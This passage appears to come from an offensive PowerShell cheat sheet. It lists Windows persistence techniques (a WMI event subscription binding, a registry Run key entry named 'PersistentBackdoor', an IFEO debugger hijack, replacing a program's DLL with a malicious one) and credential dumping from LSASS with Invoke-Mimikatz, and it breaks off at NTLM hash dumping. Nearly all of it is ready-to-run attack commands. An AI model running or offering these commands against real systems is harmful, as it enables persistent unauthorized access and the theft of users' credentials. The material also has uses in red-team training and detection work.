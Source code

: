 ```powershell
}

$Binding = Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter = $Filter
    Consumer = $Consumer
}
```

#### 2.10 Registry Modification for Persistence&#x20;

* **Persist via Registry Run Key**:

```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PersistentBackdoor" -Value "powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\script.ps1"
```

* **Persist via Image File Execution Options (IFEO)**:

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" -Name "Debugger" -Value "C:\Windows\System32\cmd.exe"
```

#### 2.11 DLL Hijacking for Persistence&#x20;

* **Identify DLL Hijacking Opportunities**:

```powershell
$VulnDLLs = Get-ChildItem -Path "C:\Program Files\" -Recurse -Filter "*.dll" | ForEach-Object {
    $_ | Get-PEInfo | Where-Object { $_.ImportTable -contains "ntdll.dll" }
}
```

* **Replace Vulnerable DLL with Malicious DLL**:

```powershell
Copy-Item -Path "C:\Malicious.dll" -Destination "C:\Program Files\VulnerableApp\Vuln.dll" -Force
```

## 3. Credential Harvesting&#x20;

#### 3.1 Dump Hashes using Invoke-Mimikatz&#x20;

* **Load Mimikatz Module**:

```powershell
Import-Module .\Invoke-Mimikatz.ps1
```

* **Dump Credentials from LSASS**:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

* **Dump NTLM Hashes**:
